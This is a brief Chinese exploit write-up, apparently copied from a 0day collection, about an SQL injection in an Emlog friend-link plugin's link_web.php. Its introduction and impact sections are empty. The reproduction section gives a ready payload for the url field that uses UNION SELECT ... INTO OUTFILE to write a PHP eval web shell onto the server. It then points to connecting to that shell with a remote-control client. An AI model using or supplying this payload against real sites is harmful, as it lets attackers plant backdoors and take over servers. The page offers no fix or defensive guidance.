

# Emlog 友情链接自助插件存在 SQL 注入漏洞

> 原文：[http://book.iwonder.run/0day/Emlog/5.html](http://book.iwonder.run/0day/Emlog/5.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

在该插件当中的 link_web.php 文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的 SQL 注入漏洞就这样简易的诞生了：



由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行 SQL 注入，首先我们可以提交正常的访问请求，之后使用 burpsuite 进行抓包，之后改包，我们这里以 URL 为例：

在抓取到数据包之后，我们可以将 url 改为以下内容：

```
url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 
```

之后，这条语句会正常执行，同时也会在 C:\phpstudy\www\下生成一个 shell.php，而且该 shell.php 中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。

